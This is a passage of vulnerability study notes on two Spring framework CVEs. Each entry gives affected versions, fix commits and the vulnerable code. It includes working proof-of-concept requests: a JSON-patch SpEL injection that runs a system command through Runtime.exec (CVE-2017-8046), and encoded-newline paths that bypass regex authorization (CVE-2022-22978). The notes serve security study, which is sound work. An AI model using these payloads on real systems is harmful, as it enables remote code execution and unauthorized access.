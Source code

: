 ```
        } ...
    }
}
```
### （4）Spring Data Rest
#### CVE-2017-8046 SpEL
Affected Version: < 2.5.12 or 2.6.7 or 3.0 RC3

Diff: https://github.com/spring-projects/spring-data-rest/commit/8f269e28fe8038a6c60f31a1c36cfda04795ab45

POC: 
```
// Create User
POST /people HTTP/1.1
Content-Type:application/json

{"firstName":"san","lastName":"zhang"}

// Patch, modify user info
PATCH /people/1 HTTP/1.1
Content-Type:application/json-patch+json

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))/lastName", "value": "hacker" }]
```
Factor: 
```
PatchOperation
protected void setValueOnTarget(Object target, Object value) {
    this.spelExpression.setValue(target, value);
}
```
### （5）Spring Security

#### CVE-2022-22978 Authorization Bypass
Affected Version: < 5.5.6, 5.6.3, earlier

Official description: 

> Applications using RegexRequestMatcher with `.` in the regular expression are possibly vulnerable to an authorization bypass

Diff: https://github.com/spring-projects/spring-security/commit/70863952aeb9733499027714d38821db05654856

POC: (`\r` -> `%0d`, `\n` -> `%0a`)
```
/admin/axisx%0a
/admin/axisx%0a%0d
```
Factor: 
```java
// RegexRequestMatcher
public boolean matches(HttpServletRequest request) {
    String url = request.getServletPath();
    String pathInfo = request.getPathInfo();
    String query = request.getQueryString();
    ...
    return this.pattern.matcher(url).matches();  // regexMatchers("/admin/.*")
}

request.getRequestURL(): http://ip:port/admin/axisx%0a%0d
request.getRequestURI(): /admin/axisx%0a%0d
```